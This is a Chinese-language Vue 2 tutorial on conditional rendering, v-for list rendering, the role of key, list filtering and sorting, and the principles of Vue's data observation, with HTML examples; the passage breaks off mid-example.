# 13.条件渲染

## 1. 使用v-show做条件渲染

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>	
</head>
<body>
  <div id="root">
    <h1 v-show="isShow">Hello World!</h1>
    <!-- 在v-show中也可以写表达式 -->
    <h1 v-show="1 == 1">Hello World!</h1>
    <button @click="changeIsShow">标题的显示/隐藏</button>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      // 用于控制是否显示
      isShow: true
    },
    methods: {
      // 改变标签元素状态
      changeIsShow() {
        this.isShow = !this.isShow
      }
    }
  })
</script>
</html>
```

> 
>
> 

## 2. 使用v-if做条件渲染

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1 v-if="isShow">Hello World!</h1>
    <!-- 在v-if中也可以写表达式 -->
    <h1 v-if="1 == 1">Hello World!</h1>
    <button @click="changeIsShow">标题的显示/隐藏</button>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      // 用于控制是否显示
      isShow: true
    },
    methods: {
      // 改变标签元素状态
      changeIsShow() {
        this.isShow = !this.isShow
      }
    }
  })
</script>
</html>
```

> 
> 

## 3. v-else-if 与 v-else

> 注意：使用 v-else-if 与 v-else 的前面必须有 v-if ，否则会报错，且条件判断渲染也不能正常实现。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>{{n}}</h1>
    <button @click="n++;">n++</button>
    <h2 v-if="n === 1">1</h2>
    <h2 v-else-if="n === 1">2</h2>
    <h2 v-else-if="n === 1">3</h2>
    <h2 v-else>else</h2>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      n: 0
    }
  })
</script>
</html>
```

> 
> 

> 注意：如果使用`v-if ... v-else-if ... v-else`中间不能被打断

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>{{n}}</h1>
    <button @click="n++;">n++</button>
    <h2 v-if="n === 1">1</h2>
    <h2>123</h2>
    <h2 v-else-if="n === 2">2</h2>
    <h2 v-else-if="n === 3">3</h2>
    <h2 v-else>else</h2>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      n: 0
    }
  })
</script>
</html>
```

> 
> 
> 

## 4. template

> div和template都可以用来包裹多个元素。
> 但是div会破坏原来元素的结构，原来的元素外层多了一层div
> template不会破坏原来元素的结构，渲染的结果中不会出现template

使用template标签可以实现同时控制多个元素的显示与隐藏，同时不影响元素标签之间的结构，但是template只能配合`v-if`使用，不能与`v-show`一起使用。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <h1>{{n}}</h1>
    <button @click="n++;">n++</button>
    <template v-if="n===1">
      <h2>1</h2>
      <h2>123</h2>
      <h2>2</h2>
      <h2>3</h2>
      <h2>else</h2>
    </template>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      n: 0
    }
  })
</script>
</html>
```

> 
>
> 渲染的结果中不存在<template>
>
> 

## 5. v-if 和 v-show 的区别

- 实现原理不同：

  - v-if 指令会动态地创建或移除 DOM 元素，从而控制元素在页面上的显示与隐藏；

  - v-show 指令会动态为元素添加或移除

     

    ```
    style="display: none;"
    ```

     

    样式，从而控制元素的显示与隐藏；

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
      <meta charset="UTF-8">
      <meta http-equiv="X-UA-Compatible" content="IE=edge">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>Document</title>
    </head>
    <body>
      <div id="root">
        <h1 v-show="isShow">Hello World!</h1>
        <h1 v-if="isShow">Hello World!</h1>
        <button @click="changeIsShow">标题的显示/隐藏</button>
      </div>
    </body>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <script>
      const vm = new Vue({
        el: '#root',
        data: {
          isShow: true
        },
        methods: {
          changeIsShow() {
            this.isShow = !this.isShow
          }
        }
      })
    </script>
    </html>
    ```

    > 
    > 

- 性能消耗不同：

  - v-if 有更高的切换开销（进行动态的创建和移除元素），而 v-show 有更高的初始渲染开销（一开始就有进行元素的渲染，v-if为false一开始不会进行渲染）。
  - 如果需要非常频繁地切换，则使用 v-show 较好
  - 如果在运行时条件很少改变，则使用 v-if 较好

# 14.列表渲染

## 1. 列表渲染

### 1.1 v-for

vue 提供了 v-for 指令，用来辅助开发者基于数组、对象、字符串（用的很少）、指定次数（用的很少）等来循环渲染相似的 UI 结构。 v-for 指令需要使用`item in items` 或 `item of items` 的特殊语法，其中：

- items 是待循环的数据
- item 是当前的循环项

### 1.2 v-for 中的索引

v-for 指令除了可以获取当前正在循环的项，还支持一个可选的**第二个参数**，即当前项的索引。语法格式为 `(item, index) in items` 或 `(item, index) of items`。

> v-for 指令中的 item 项和 index 索引都是形参，可以根据需要进行重命名。例如 `(username, idx) in userlist`。

## 2. v-for 遍历数组

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <ul>
      <li v-for="(person, index) in persons">
        [{{index}}] 姓名：{{person.name}} -- 年龄：{{person.age}}
      </li>
    </ul>

    <ul>
      <li v-for="(person, index) of persons">
        [{{index}}] 姓名：{{person.name}} -- 年龄：{{person.age}}
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: 101, name: 'ZS', age: 18},
        {id: 102, name: 'LS', age: 19},
        {id: 103, name: 'WW', age: 20}
      ]
    }
  })
</script>
</html>
```

> 

## 3. v-for 遍历对象

> 使用 v-for 遍历对象，可以获取到三个参数，第一个参数为当前项的值，第二个参数为当前项对应的键，第三个参数为当前项的索引。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <ul>
      <li v-for="(value, key, index) in zs">
        {{index}} {{key}} : {{value}}
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: 101, name: 'ZS', age: 18},
        {id: 102, name: 'LS', age: 19},
        {id: 103, name: 'WW', age: 20}
      ],
      zs: {id: 101, name: 'ZS', age: 18}
    }
  })
</script>
</html>
```

> 

## 4. v-for 遍历字符串(用得少)

> 使用 v-for 遍历字符串，可以获取到两个参数，第一个参数为当前正在遍历的字符，第二个参数为当前字符对应的索引或下标。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <ul>
      <li v-for="(char, index) in my_str">
        {{index}} -- {{char}}
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: 101, name: 'ZS', age: 18},
        {id: 102, name: 'LS', age: 19},
        {id: 103, name: 'WW', age: 20}
      ],
      zs: {id: 101, name: 'ZS', age: 18},
      my_str: 'abcdefg'
    }
  })
</script>
</html>
```

> 

## 5. v-for 遍历指定次数(用得少)

> 使用 v-for 遍历指定次数，可以获取到两个参数，第一个参数为当前的数，第二个参数为当前的数对于的索引。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <ul>
      <li v-for="(number, index) in 3">
        {{index}} -- {{number}}
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
  })
</script>
</html>
```

> 

## 6. key的作用与原理

### 6.1 key

key 在 v-for 循环渲染中，可以为每个循环渲染出来的元素节点添加一个唯一的身份标识。

> 在使用 v-for 循环渲染时，最好写上 key

### 6.2 key错误演示

#### 6.2.1 index作为key

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <button @click="addPerson">添加</button>
    <ul>
      <li v-for="(person, index) in persons" :key="index">
        {{index}}: {{person.name}} -- {{person.age}}
        <input type="text">
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: 101, name: 'ZS', age: 18},
        {id: 102, name: 'LS', age: 19},
        {id: 103, name: 'WW', age: 20}
      ]
    },
    methods: {
      addPerson() {
        // 在数组的开头添加一人
        this.persons.unshift({id: 104, name: 'TOM', age: 21})
      }
    },
  })
</script>
</html>
```

> 

通过观察上面的代码和运行结果，发现新的人员信息和新的输入框在添加到页面后出现了显示位置不匹配的问题。

#### 6.2.2 不写key

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <button @click="addPerson">添加</button>
    <ul>
      <li v-for="(person, index) in persons">
        {{index}}: {{person.name}} -- {{person.age}}
        <input type="text">
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: 101, name: 'ZS', age: 18},
        {id: 102, name: 'LS', age: 19},
        {id: 103, name: 'WW', age: 20}
      ]
    },
    methods: {
      addPerson() {
        this.persons.unshift({id: 104, name: 'TOM', age: 21})
      }
    },
  })
</script>
</html>
```

> 

通过观察，发现新的人员信息和新的输入框在添加到页面后依旧出现了显示位置不匹配的问题。

#### 6.2.3 出现错误的解释

> 使用 v-for 进行循环渲染时，不写 key 时，vue 为自动为DOM元素设置一个 key ，key 的值为 index。即不写 key 与使用 index 作为 key 一样。



### 6.3 可以对数组数据进行唯一标识的作为key

#### 6.3.1 示例

> 在提供的数据数组中，每个对象的 id 可以对该对象进行唯一标识，所以可以使用 id 作为key。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <button @click="addPerson">添加</button>
    <ul>
      <li v-for="(person, index) in persons" :key="person.id">
        {{index}}: {{person.name}} -- {{person.age}}
        <input type="text">
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: 101, name: 'ZS', age: 18},
        {id: 102, name: 'LS', age: 19},
        {id: 103, name: 'WW', age: 20}
      ]
    },
    methods: {
      addPerson() {
        this.persons.unshift({id: 104, name: 'TOM', age: 21})
      }
    },
  })
</script>
</html>
```

> 

提供观察结果发现，新的人员信息和新的输入框在加入页面显示后，没有出现不匹配的问题。

#### 6.3.2 解释


### 6.4 key的作用

1. 虚拟DOM中key的作用：
   - key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】,随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：
     - (1).旧虚拟DOM中找到了与新虚拟DOM相同的key：
       - ①.若虚拟DOM中内容没变, 直接使用之前的真实DOM！
       - ②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
     - (2).旧虚拟DOM中未找到与新虚拟DOM相同的key
       - 创建新的真实DOM，随后渲染到到页面。

### 6.5 用index作为key可能会引发的问题

1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作:
   - 会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
2. 如果结构中还包含输入类的DOM：
   - 会产生错误DOM更新 ==> 界面有问题。

如果不对数据进行破坏顺序操作，则使用index作为key不会引发问题。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Document</title>
</head>
<body>
  <div id="root">
    <button @click="addPerson">添加</button>
    <ul>
      <li v-for="(person, index) in persons" :key="idnex">
        {{index}}: {{person.name}} -- {{person.age}}
        <input type="text">
      </li>
    </ul>
  </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script>
  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        {id: 101, name: 'ZS', age: 18},
        {id: 102, name: 'LS', age: 19},
        {id: 103, name: 'WW', age: 20}
      ]
    },
    methods: {
      addPerson() {
        this.persons.push({id: 104, name: 'TOM', age: 21})
      }
    },
  })
</script>
</html>
```

> 

### 6.6 开发中如何选择key

1. 最好使用每条数据的唯一标识作为key，比如id、手机号、身份证号、学号等唯一值。
   1. 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。

## 7. 列表过滤

### 7.1 监视属性实现

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <!-- 使用 v-model 进行双向绑定 获取用户的输入 -->
      <input type="text" placeholder="请输入姓名..." v-model="keyWord" />
      <ul>
        <li v-for="(person, index) in filterPerson" :key="person.id">{{index}}: {{person.name}} -- {{person.age}} -- {{person.sex}}</li>
      </ul>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        // 保存用户的输入
        keyWord: '',
        persons: [
          { id: '001', name: '马冬梅', age: 19, sex: '女' },
          { id: '002', name: '周冬雨', age: 20, sex: '女' },
          { id: '003', name: '周杰伦', age: 21, sex: '男' },
          { id: '004', name: '温兆伦', age: 22, sex: '男' },
        ],
        // 用于保存过滤后的数组
        filterPerson: [],
      },
      watch: {
        // 监视用户的输入
        keyWord: {
          // 初始化时立即执行一次，
          // 初始用户没有输入，使用空字符串进行过滤，所有的数组元素都保留
          // 显示数组中的全部元素
          immediate: true,
          handler(newVal) {
            // 对数组进行过滤，并将过滤后的结果保存到filterPerson中
            this.filterPerson = this.persons.filter((person) => {
              // 查询姓名中是否包含用户输入的字符串
              // 空字符串会返回0
              // 包含输入的字符串则返回对应的索引
              // 不包含返回-1
              return person.name.indexOf(newVal) !== -1
            })
          },
        },
      },
    })
  </script>
</html>
```

> 

### 7.2 计算属性实现

> 计算属性与监视属性都能实现的功能，优先使用计算属性。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <!-- 使用 v-model 进行双向绑定 获取用户的输入 -->
      <input type="text" placeholder="请输入姓名..." v-model="keyWord" />
      <ul>
        <li v-for="(person, index) in filterPerson" :key="person.id">{{index}}: {{person.name}} -- {{person.age}} -- {{person.sex}}</li>
      </ul>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        // 保存用户的输入
        keyWord: '',
        persons: [
          { id: '001', name: '马冬梅', age: 19, sex: '女' },
          { id: '002', name: '周冬雨', age: 20, sex: '女' },
          { id: '003', name: '周杰伦', age: 21, sex: '男' },
          { id: '004', name: '温兆伦', age: 22, sex: '男' },
        ]
      },
      computed: {
        // 由于页面中使用到了该计算属性，所以页面初始化时会调用一次
        // 由于该计算属性使用了keyWord，所以当keyWord变化时，也会自动调用该计算属性
        filterPerson() {
          // 对数组进行过滤
          return this.persons.filter((person)=>{
            // 判断姓名是否包含用户的输入
            return person.name.indexOf(this.keyWord) !== -1
          })
        }
      }
    })
  </script>
</html>
```

> 

## 8. 列表排序

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <div id="root">
      <!-- 使用 v-model 进行双向绑定 获取用户的输入 -->
      <input type="text" placeholder="请输入姓名..." v-model="keyWord" />
      <button @click="sortType = 2">年龄升序</button>
      <button @click="sortType = 1">年龄降序</button>
      <button @click="sortType = 0">原顺序</button>
      <ul>
        <li v-for="(person, index) in filterPerson" :key="person.id">{{index}}: {{person.name}} -- {{person.age}} -- {{person.sex}}</li>
      </ul>
    </div>
  </body>
  <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        // 保存用户的输入
        keyWord: '',
        // 数据显示的顺序
        // 默认为0(原顺序) 1降序 2升序
        sortType: 0,
        persons: [
          { id: '001', name: '马冬梅', age: 19, sex: '女' },
          { id: '002', name: '周冬雨', age: 20, sex: '女' },
          { id: '003', name: '周杰伦', age: 21, sex: '男' },
          { id: '004', name: '温兆伦', age: 22, sex: '男' },
        ],
      },
      computed: {
        filterPerson() {
          // 保存过滤后的数据
          const personArr = this.persons.filter((person) => {
            return person.name.indexOf(this.keyWord) !== -1
          })
          // 对过滤后的数据进行排序
          // 如果需要的数组顺序不为原顺序，则进行排序
          if (this.sortType) {
            // 排序
            personArr.sort((p1, p2) => {
              // 判断是要降序还是升序
              return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
            })
          }
          // 然后数组
          return personArr
        },
      },
    })
  </script>
</html>
```

> 

# 15.Vue监测数据的原理

## 1. Vue数据更新时的一个问题

> 通过数组的索引对数组的元素进行修改，vue监测不到，不会对页面中的数据进行更新。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>更新时的一个问题</title>
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>人员列表</h2>
			<button @click="updateMei">更新马冬梅的信息</button>
			<ul>
				<li v-for="(p,index) of persons" :key="p.id">
					{{p.name}}-{{p.age}}-{{p.sex}}
				</li>
			</ul>
		</div>

		<script type="text/javascript">
			Vue.config.productionTip = false
			
			const vm = new Vue({
				el:'#root',
				data:{
					persons:[
						{id:'001',name:'马冬梅',age:30,sex:'女'},
						{id:'002',name:'周冬雨',age:31,sex:'女'},
						{id:'003',name:'周杰伦',age:18,sex:'男'},
						{id:'004',name:'温兆伦',age:19,sex:'男'}
					]
				},
				methods: {
					updateMei(){
						// this.persons[0].name = '马老师' //奏效
						// this.persons[0].age = 50 //奏效
						// this.persons[0].sex = '男' //奏效
						//会发现使用此方法进行数据的更新不奏效，vue监测不到数据的改变
						this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'} 
					}
				}
			}) 

		</script>
</html>
```

> 观察运行结果发现，点击按钮后，对数组中的一个对象元素整个进行了更改，但是Vue并没有监测到，没有对页面进行更新。
> 
>
> 

## 2. Vue监测对象数据的原理

> Vue监测对象类型的数据主要是通过Object.defineProperty()方法向vue实例对象中添加各个属性对应的getter和setter方法，当页面的数据发生更改时，会触发对应属性的setter方法，在setter方法中会调用方法重新进行模板的解析，从而实现页面数据的更新。

Vue监测对象数据的简单模拟：

> 注意：通过Object.defineProperty()方法向vue实例对象中添加各个属性对应的getter和setter方法实现数据的监视，不能在要监视的对象数据上直接操作，否则会死规(堆栈溢出)。
> 

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Document</title>
	</head>
	<body>
		<script type="text/javascript" >
			// 对象类型的数据
			let data = {
				name:'尚硅谷',
				address:'北京',
			}

			// 声明一个构造器 
			// 用于构造监测 对象类型数据 的对象
			// obj为要监测的 对象类型数据
			function Observer(obj){
				// 汇总对象中所有的属性形成一个数组
				const keys = Object.keys(obj)
				// 遍历对象的每个属性
				// 在构造出来的监测对象(this/obs)上添加getter和setter方法
				// 用于监测 对象类型数据 中对应的属性
				keys.forEach((k)=>{
					// 使用Object.defineProperty()方法进行添加
					Object.defineProperty(this,k,{
						get(){
							return obj[k]
						},
						set(val){
							console.log(`${k}被改了，我要去解析模板，生成虚拟DOM.....我要开始忙了`)
							obj[k] = val
						}
					})
				}) 
			}

			// 创建一个监视的实例对象，用于监视data中属性的变化
			// 将要监测的对象类型数据 即data传入
			const obs = new Observer(data)		
			console.log(obs)	

			//准备一个vue实例对象
			let vm = {}
			// 将构建的监测实例对象挂载到vue实例对象中
			vm._data = data = obs
		</script>
	</body>
</html>
```

> Vue的数据监视的实现有两处比这里的模拟实现更完善。
>
> 1.vue更改属性的值可以直接使用vm.name = newValue实现，而这里的模拟实现只能通过vm._data.name = newValue实现
>
> 2.这只能实现一层数据的监视，vue能监视多层的数据，是由于vue采用递归的方式向对象内继续查找。
> 

## 3. Vue.set()

`Vue.set()`方法，可以用于向**data中的对象数据**动态的添加属性。

> 不能使用该方法向vue实例对象上添加属性，也不能使用该方法向vue中的data添加属性。
> Vue.set(vm, ...)  --错误
> Vue.set(vm_ddata, ...)  --错误

语法：

```js
Vue.set(target, key, value)
```

- target：为要进行属性添加的对象数据
- key：为将要添加的属性名
- value：为将要添加的属性值

> vue 实例对象中的`$set()`方法与`Vue.set()`方法的用法一样。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Vue监测数据改变的原理</title>
		<!-- 引入Vue -->
		<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学校信息</h1>
			<h2>学校名称：{{school.name}}</h2>
			<h2>学校地址：{{school.address}}</h2>
			<h2>校长是：{{school.leader}}</h2>
			<hr/>
			<h1>学生信息</h1>
			<button @click="addSex">添加一个性别属性，默认值是男</button>
